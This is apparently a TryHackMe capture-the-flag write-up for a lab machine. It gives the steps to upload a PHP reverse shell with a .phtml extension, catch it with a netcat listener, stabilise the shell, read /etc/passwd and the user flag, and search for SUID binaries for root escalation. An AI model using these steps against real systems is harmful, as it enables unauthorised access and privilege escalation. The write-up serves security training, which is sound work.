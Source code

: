 ### Exploitation
- Download the given reverse php shell
- Set `$ip = '[Your Host IP]';` in the shell
	- Find your host IP by going to `10.10.10.10` while on the THM VPN
- Rename file to php-reverse-shell.phtml
- Listen to netcat connections with `nc -lvnp 1234`
- Upload shell and head to `http://[THM Machine IP]:3333/internal/uploads/php-reverse-shell.phtml`

### Exploration
#### Stabilize shell
Although this isn’t necessary for this challenge, it’s great practice and useful for future boxes, because you get more features like `CTRL + C`, tab autocomplete, more data, easier to read/understand, and better terminal control.

- In the remote shell, run `python -c 'import pty;pty.spawn("/bin/bash")'`
	- This spawns a bash shell with more features
- Then run `export TERM=xterm` to set the xterm emulator
- Now press `Ctrl+Z` to send the netcat shell to the background
- In your host, run `stty raw -echo; fg`
- Type `reset` and press enter
- Your shell has been stabilized!

#### Finding user account and password
- Run `ls /home` to see user accounts with a home directory
	- Use `cat /etc/passwd` to see all user accounts
- `/home/bill` and all files inside are world readable (which you can find with `ls -l`)
- This means we can just run `cat /home/bill/user.txt` for the flag

# Root pwn
## SUID Exploitation
Run the following command to search for SUID binaries:
```bash
find / -type f -perm -4000 ! -path "/proc/*" -exec ls {} 2</dev/null \;
```
### Results
```bash
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
```